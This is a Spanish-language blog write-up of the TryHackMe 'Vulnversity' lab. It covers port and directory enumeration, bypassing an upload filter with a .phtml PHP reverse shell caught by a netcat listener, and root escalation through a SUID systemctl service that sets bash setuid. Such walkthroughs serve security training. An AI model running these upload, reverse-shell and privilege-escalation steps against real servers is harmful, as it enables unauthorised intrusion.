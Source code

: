 ```yaml
---
title: Tryhackme - Vulnversity
author: nik0
date: 2020-11-14 14:10:00 +0800
categories: [Write up]
tags: [THM,Vulnversity]
---
```

![Vulnversity logo!](/assets/img/sample/vulnlogo.png)


## Introducción

En este write up veremos la máquina Vulnversity de Tryhackme, veremos temas cómo reconocimiento activo, ataques a aplicaciones web y escalación de privilegios explotando binarios.

## Reconocimiento

Primero haremos un escaneo con nmap para ello utilizamos el comando ```sudo nmap -sC -sV "ip"``` y el output que nos muestra es el siguiente:

```terminal
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 21:03 -03
Nmap scan report for 10.10.128.154
Host is up (0.27s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m19s, deviation: 2h53m12s, median: 19s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-11-13T19:04:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-14T00:04:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.43 seconds
```
Primero probé con el puerto 21, pero no habia ningún exploit para esa versión, luego intenté conectarme para ver si tenía acceso anónimo y nada, después seguí con ssh, y tampoco habían exploits disponibles para esa versión, continué con samba buscando recursos compartidos y estaba todo sin acceso con SMBMAP, luego termino con el puerto 3333 que es http y si pongo la ip de la máquina con el puerto me sale esto:

![1](/assets/img/sample/1.jpeg)

Indagando más a fondo en la página (mirando el codigo fuente etc) me di cuenta de que es solo frontend así que empecé a enumerar directorios con gobuster

## Localizando directorios con Gobuster

Con el comando ```gobuster dir -u http://10.10.128.154:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150``` enumeramos los directorios escondidos que puede tener la página web, OJO: no es recomendable aumentar los threads porque se podría hacer una denegación de servicio o te podría bloquear un firewall, en todo caso con la herramienta W4fw00f se puede saber si un sitio tiene firewall o no, finalmente este es el resultado de Gobuster:

```terminal
2020/11/13 21:43:55 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
===============================================================
```
El directorio ```/internal``` se ve interesante y si ponemos esto en la url del sitio nos lleva a esto:

![2](/assets/img/sample/2.png)

Encontramos una subida de archivos, donde podemos subir una shell y así posteriormente tener conexión reversa con el servidor, o un backdoor así que primero vamos a abrir burpsuite para saber que tipo de extension es admitida para poder subir nuestro backdoor

![3](/assets/img/sample/3.png)

ahí subimos el archivo test.jpg y lo interceptamos con burpsuite y ahora lo mandamos a intruder para posteriormente hacer fuzzing al objetivo

![4](/assets/img/sample/4.png)

Luego nos vamos a payloads y cargamos las posibles extensiones que permitirían la subida del archivo, pueden usar la lista que ustedes les guste más

![5](/assets/img/sample/5.png)

Y ejecutamos el ataque, el resultado es el siguiente:

![6](/assets/img/sample/6.png)

Podemos ver que aceptó la extensión .phtml porque cambió la longitud y si se renderiza via web igual se puede ver

Ya que encontramos el directorio donde se pueden subir archivos, tenemos que encontrar en donde se alojan para poder ejecutar nuestro backdoor

Así que utilizamos nuevamente Gobuster para enumerar directorios en el mismo de /internal

El comando a utilizar sería ```gobuster dir -u http://10.10.6.52:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```

Output:
```terminal
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.6.52:3333/internal
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 22:44:15 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
```
Podemos ver que hay un subdirectorio llamado /uploads y se ve así:

![7](/assets/img/sample/7.png)

Ahora procedemos a subir nuestra shell

## Comprometiendo el servidor web

usamos el comando ```cp /usr/share/webshells/php/php-reverse-shell.php shell.phtml``` para mover nuestra shell y poner la extensión .phtml (OJO: hay que editar la shell y cambiar la ip y el puerto!)

luego la subimos en /internal

ponemos a la escucha netcat con el comando ```nc -lnvp TUPUERTO``` en mi caso era el 443 así que era ```nc -lnvp 443```

lo ejecutamos en /uploads

si todo salió bien, debería aparece algo así en la terminal:

![8](/assets/img/sample/8.png)

ponemos el comando ```uname -a``` para imprimir información sobre el SO

Para mayor comodidad en la terminal se puede hacer una shell TTY interactiva (Buscar en Google)

Ahora que ya estamos dentro, podemos ir escalando privilegios

## Escalando Privilegios

Primero lo que vamos a hacer es usar este comando ```find / -perm -u=s -type f 2>/dev/null``` para buscar desde la raíz el permiso para usuario SUID, porque queremos explotar permisos SUID? porque hay algunos binarios por ej: passwd se ejecuta como root y eso se puede explotar para poder ir escalando privilegios localmente.


Hay una página que se llama GTFOBins, sirve para encontrar binarios Unix que ayuda para hacer una escalada de privilegios, vamos a utilizar esta página para poder comparar los binarios de la máquina actual y los de GTFObins para así poder filtrarlos (Pueden hacer un script o hacerlo manualmente)

Entonces nos da por resultado /bin/systemctl

Ahora que ya sabemos el binario que vamos a explotar, lo buscamos en GTFObins y seguimos las instrucciones:

![GTFO](/assets/img/sample/GTFO.png)

La primera línea ```sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'``` la vamos a ignorar, no la necesitamos por el momento, ahora lo que vamos a hacer es editar la línea de comando ```ExecStart=/bin/sh -c "id > /tmp/output"``` para poder ejecutar /bin/bash, ya que si hacemos un ls -la /bin/bash podemos notar que este se ejecuta cómo root entonces cuando nosotros ejecutemos bash, este se lanzará cómo usuario root, entonces la línea de código sería así:  ```ExecStart=/bin/sh -c "chmod +s /bin/bash"```

Ahora en la consola escribimos bash -p y si salió todo bien, debería aparecer algo así: 

![10](/assets/img/sample/10.png)















